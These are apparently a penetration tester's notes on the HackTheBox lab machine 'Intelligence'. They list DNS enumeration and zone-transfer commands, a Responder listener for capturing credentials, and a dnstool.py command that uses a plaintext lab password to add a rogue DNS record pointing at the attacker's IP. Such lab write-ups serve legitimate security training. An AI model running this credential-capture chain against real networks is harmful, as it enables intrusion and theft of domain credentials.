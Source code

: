 ```
dig @10.10.10.248 intelligence.htb
```
- query 

```
dig axfr @10.10.10.248 intelligence.htb
```
- zone transfer

```
dnsenum --dnsserver 10.10.10.248 -f /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -o scans/dnsenum-bitquark-intelligence.htb intelligence.htb dnsenum VERSION:1.2.6
```
- enumerate subdomains
- make sure to add to `/etc/hosts`

***Add DNS record (in box was used bc script was found that auth's with web server's found that start with "web" so created web server)***
`sudo responder -I tun0`
- capture creds from auth
```
python3 dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-0xdf --data 10.10.14.172 --type A intelligence.htb
```
- adds a new LDAP record, which points to my tun0 IP